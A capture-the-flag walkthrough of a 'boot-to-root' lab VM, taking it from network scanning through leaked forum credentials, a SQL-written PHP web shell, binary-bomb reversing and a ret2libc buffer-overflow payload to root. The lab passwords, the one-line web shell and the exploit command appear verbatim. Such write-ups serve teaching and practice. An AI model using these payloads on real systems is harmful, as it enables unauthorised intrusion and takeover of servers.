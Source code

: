 # Main way

Since bridged adapter is blocked in the school - I setup kali linux vm and boot-to-root vm through host-only adapter.
I created local network through **VirtualBox->File->Host network manager**, and it's ip **192.168.56.1/24**.
Now, there is a local network with kali vm, boot-to-root vm and host computer.
And kali will see only host computet and boot-to-root vm.
My kali linux ip is 192.168.56.101 (through **ip a**).
And we need to find out how can we interact with boot-to-root vm. For this I check all available ports im my local network with **nmap 192.168.56.1-225**

For only one non host port in my local network I received:
```
Nmap scan report for 192.168.56.102
Host is up (0.0010s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

So boot-to-root vm running on 192.168.56.102 ip, and have few open ports.

On http there is site, which is pretty empty, I check it html source code and there is nothing interesting in it. 
After that I scanned it with **skipfish -o path_to_save http://192.168.56.102** and **nikto -h http://192.168.56.102**, and not found thomething interesting.

There is another open port which could be scanned, it's https.
using **nikto -h https://192.168.56.102** we recieve few interesting dirs: **forum, webmail, phpmyadmin**

On forum there are 4 topics and only one is iteresting, topic **Probleme login** where user **lmezard** push logs with attempts to log in.

In these logs we can see, what username lmezard used trying to log in, it's **"Failed password for invalid user 'username'"** 
And there is interesting username in string **"Failed password for invalid user !q\]Ej?\*5K5cy\*AJ"**
And, these characters came up for lmezard password.

In lmezard profile we could see his email, so we go to webmail, and try the same password **!q\]Ej?\*5K5cy\*AJ** to his mail. And it's fits again.

In mail there is message **DB Access** which contains **Use root/Fg-'kKXBj87E:aJ$ .** It doesn't fit to ssh and ftp connection, but it's fit to phpmyadmin.

First of all I checked all tables in db, but all users passwords hashed and I didn't find any helpful information.
And another way to get access to server - is SQL injection through which you can access the shell.
**(detailed articles about SQL injections https://null-byte.wonderhowto.com/how-to/use-sql-injection-run-os-commands-get-shell-0191405/ https://www.informit.com/articles/article.aspx?p=1407358&seqNum=2)**

```
SELECT  '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/hack.php'
```
templates_c - dir which always need write permission, used for compiled templates. I found it through **dirbuster** and brute force dirs to write access.

After that we can run something like this **https://192.168.56.102/forum/templates_c/hack.php?cmd=pwd** and it will show pwd output **/var/www/forum/templates_c **

After a little research, we can see LOOKATME dir in home dir with other users (I used curl because of more convenient output):
```
curl --insecure 'https://192.168.56.102/forum/templates_c/hack.php?cmd=ls%20-la%20/home' (--insecure because of https not safe)
drwxrwx--x 9 www-data             root                 126 Oct 13  2015 .
drwxr-xr-x 1 root                 root                 200 Apr 16 04:01 ..
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```

There is file password in LOOKATME dir, which contains **lmezard:G!@M6f4Eatau{sF"**

This password fit to ftp port, which contains README file - "Complete this little challenge and use the result as password for user 'laurie' to login in ssh", and fun file (which need to be solved).
(command 'get' to receive files through ftp)

### lmezard
File fun is archive (I found out it because of '0ustar' mark in file).
After unzipping **(tar -xf fun)**
There is a folder **ft_fun** with a lot of pcap files.

These files have c code, and comments which number/line it has.
So we need to write script which will correct concat them into c file.
We can use our "build_program.py" script inside this folder to get full program.
Compile and run "prog.c". Got "Iheartpwnage" password and advice to use sha-256.

### laurie
```
echo -n "Iheartpwnage" | shasum -a 256
```
Now we can connect throught ssh to laurie with "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4" password.
There is bomb here. Bomb contains of 6 phases. We should input correct key in each stage.

gdb bomb

    disas main
    disas phase_1
    x/1cs 0x80497c0
    "Public speaking is very easy."

    disas phase_2
    Program expects 6 numbers. First is 1, and every number = prev * (index(cur) + 1)
    "1 2 6 24 120 720"

    disas phase_3
It is very difficult to read this asm code. And We downloaded cutter to decompile bomb.
```
scp -P 2222 laurie@127.0.0.1:bomb ./
```
Yeah, this way is much better.
We see switch-case condition here and there are several correct combinations.  
"0 q 777"  
"1 b 214"

phase_4  
Recursive function, which returns sum of calls this function with num - 1 and num - 2. If num < 2 function returns 1. We need 55.  
1 -> 1  
2 -> 2  
3 -> 3  
4 -> 5  
5 -> 8  
6 -> 13  
7 -> 21  
8 -> 34  
9 -> 55  
"9" is solution.

phase_5  
So we will have some sex with bytes here.
We shoud get word "giants". Program expects 6 charachters.
Logical AND with 0xF uses for each inputed character, and then get this num as index of "isrveawhobpnutfg" array.
So we need indexes: 15 0 5 11 13 1.
Look at ascii table and get characters which hexadecimal second digit are f, 0, 5, b, d, 1. It is "opekmq".

phase_6  
Program expects 6 numbers.
Inside program is array with numbers 253 725 301 997 212 432.
There are 4 cycles here.  
First checks that each number is unique and 1 <= n <= 6.  
Second and third build new array from program's array with inputed indexes.  
Fourth checks that new array is sorted.  
So we need numbers "4 2 6 3 1 5".

README says to remove spaces when we have FULL the password. Ok, lets concatenate all strings and remove spaces.
"Publicspeakingisveryeasy.126241207201b2149opekmq426135". This is password for thor. (Look at "135" at the end. It is soooo crazy-making!)

### thor
Use our "parse_turtle_steps.py" script and look at word "SLASH".
```
md5 -s SLASH
```
"646da671ca01bb5d84dbb5fb2238dc8e" is password for zaz.

### zaz
You can see expolit_me file there. This program takes argument and prints it. With decompiled code we can see that there is only 140 bytes buffer inside main. And strcpy is uding here. Excellent opportunity to overflow buffer and use ret2lib exploit.

We need to know system command adress and '/bin/bash' string address.

gdb exploit_me

    break main
    run
    print &system                           > 0xb7e6b060 > '\xb7\xe6\xb0\x60'
    find &system, +9999999, "/bin/sh"       > 0xb7f8cc58 > '\xb7\xf8\xcc\x58'


Now we can run this command
```
./exploit_me $(python -c "print('a' * 140 + '\xb7\xe6\xb0\x60'[::-1] + 'dumm' + '\xb7\xf8\xcc\x58'[::-1])")
```

Whaaat is going on? Whoami? A im root! System has been hacked.

Description of ret2lib exploit.
https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf

Gdb useful things.
https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
